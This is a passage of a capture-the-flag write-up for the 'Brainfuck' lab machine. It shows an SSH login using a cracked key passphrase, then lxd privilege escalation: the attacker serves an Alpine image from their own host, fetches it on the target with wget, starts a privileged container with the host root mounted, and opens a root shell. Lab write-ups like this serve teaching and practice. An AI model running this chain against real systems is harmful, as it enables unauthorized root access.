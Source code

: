 id_rsa passphrase 3poulakia!

ssh orestis@10.10.10.17 -i id_rsa  
![alt text](./img/brainfuck39.PNG?raw=true)  
  
HABEMUS SHELL \o/

![alt text](./img/brainfuck43.PNG?raw=true)  

## Privesc  
![alt text](./img/brainfuck40.PNG?raw=true)  

lxd? We can try to escalate our privileges with the instructions in this [link](https://www.hackingarticles.in/lxd-privilege-escalation/)

> In your machine:  
git clone https://github.com/saghul/lxd-alpine-builder.git  
cd lxd-alpine-builder  
./build-alpine  
check the name of the created file  
sudo python3 -m http.server 80  

> On target machine  
cd /tmp  
wget http://YOUR_IP/CREATED_ALPINE_FILE  
lxc image import ./CREATED_ALPINE_FILE --alias myimage  
lxc image list  
lxc init myimage ignite -c security.privileged=true  
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true  
lxc start ignite  
lxc exec ignite /bin/sh  
id  